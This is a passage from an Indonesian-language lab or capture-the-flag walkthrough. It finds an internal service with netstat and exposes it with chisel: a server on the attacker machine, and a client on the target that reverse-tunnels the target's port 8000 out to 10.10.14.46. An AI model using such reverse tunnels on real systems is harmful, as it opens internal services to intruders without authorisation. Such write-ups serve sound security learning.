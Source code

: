 Selanjutnya kita coba inspeksi manual. Pertama, kita jalankan perintah netstat untuk melihat service yang mungkin berjalan di internal.

```
netstat -tlpn
```

<figure><img src="../../.gitbook/assets/netstat as users.png" alt=""><figcaption><p>Find service at port 8000</p></figcaption></figure>

Sekarang kita coba ekspos service yang berjalan di port 8000 tersebut. Kita bisa gunakan tool [chisel](https://github.com/jpillora/chisel).

Dari mesin attacker jalankan perintah

```
chisel server -p 2525 --socks5 --reverse -v
```

Sementara dari sisi server target, jalankan perintah:

```
./chisel client 10.10.14.46:2525 R:8001:127.0.0.1:8000
```

Sekarang, service tersebut dapat kita akses dari port **8001** di mesin kita.
